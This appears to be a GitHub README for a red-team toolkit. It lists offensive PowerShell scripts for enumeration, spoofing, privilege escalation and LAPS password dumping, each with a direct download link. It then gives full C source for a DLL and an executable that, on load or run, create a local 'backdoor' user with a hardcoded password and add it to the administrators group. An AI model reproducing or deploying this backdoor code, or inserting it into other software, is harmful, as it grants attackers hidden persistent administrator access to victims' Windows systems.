 ### Scripts
|| Name | Description | Download | 
|---| --- | --- | --- |
|★| [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) | Enumeration |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerView.ps1 |
|★| [Powermad](https://github.com/Kevin-Robertson/Powermad) | MachineAccountQuota and DNS Exploitation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/Powermad.ps1 |
|| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | MitM Attacks & Spoofing |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/Inveigh.ps1 |
|| [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) | Windows Privilege Escalation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerUp.ps1 |
|| [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) | SQL Server Enumeration and Exploitation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerUpSQL.ps1 |
|| [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) | LAPS Password dumping |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/LAPSToolkit.ps1 |

### Custom 
[SimpleBackdoorAdmin.dll](https://github.com/jakobfriedl/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.dll)

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor Password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

[SimpleBackdoorAdmin.exe](https://github.com/jakobfriedl/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.exe)
```c
#include <stdlib.h>

int main ()
{
  system("net user backdoor Password123! /add");
  system("net localgroup administrators backdoor /add");

  return 0;
}
```

